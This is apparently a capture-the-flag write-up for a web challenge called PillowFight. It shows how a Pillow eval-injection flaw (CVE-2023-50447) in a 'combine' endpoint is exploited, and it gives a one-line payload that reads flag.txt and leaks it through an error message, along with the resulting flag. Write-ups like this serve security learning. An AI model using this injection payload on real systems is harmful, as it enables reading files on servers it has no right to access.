### Challenge description

PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing

*note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise. 

### Solution

Upon visiting the website we notice the pillow verson and the API doc. We check it and there is one endpoint `combine`. Takes in two images and a custom function to manipulate them... intresting.

Reading [this](https://duartecsantos.github.io/2024-01-02-CVE-2023-50447/) post gives us an idea. After fiddeling around for quite a bit we have the payload for the `eval_command` input.

```python
convert(open("flag.txt", "r").read()+img1,'L')
```

It spits this error with the flag. Buya!

```json
{
  "error": "unknown color specifier: 'flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}'"
}
```

flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}